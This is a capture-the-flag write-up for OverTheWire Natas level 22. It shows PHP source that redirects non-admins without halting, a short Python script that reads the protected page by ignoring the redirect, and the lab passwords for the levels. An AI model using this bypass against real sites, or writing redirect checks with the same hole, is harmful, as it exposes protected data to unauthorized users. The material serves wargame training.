# Writeup level 22
In this challenge we are on a blank page but we can view the source code.

**Source Code (only PHP part)**  
```php

<?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?> 


<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

So that challenge is pretty simple. We just have to provide a GET-Parameter named **revelio** and don't follow the redirect since the data still gets printent.

**Exploit**  
```python
import requests

url = "http://natas22.natas.labs.overthewire.org/?revelio=true"

r = requests.get(url, auth=("natas22", "chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ"), allow_redirects=False)
print(r.text)
```

The password is:  
D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
